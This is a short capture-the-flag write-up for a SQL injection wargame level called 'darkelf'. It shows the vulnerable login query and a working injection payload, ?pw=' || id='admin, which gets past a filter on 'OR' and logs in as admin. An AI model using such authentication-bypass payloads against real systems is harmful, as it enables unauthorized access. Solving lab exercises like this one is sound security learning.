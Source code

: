 ```yaml
---
custom_edit_url: null
sidebar_position: 6
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6674ab0c-5e81-49b2-b7e4-62093ae1c3da)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes the `OR` characters. In order to get around this, we need to use the double pipe (`||`) characters.

If we provide the following URI parameter:

```
?pw=' || id='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='' || id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/f912a7a1-a27a-4632-938b-1e6d6bcc56dc)
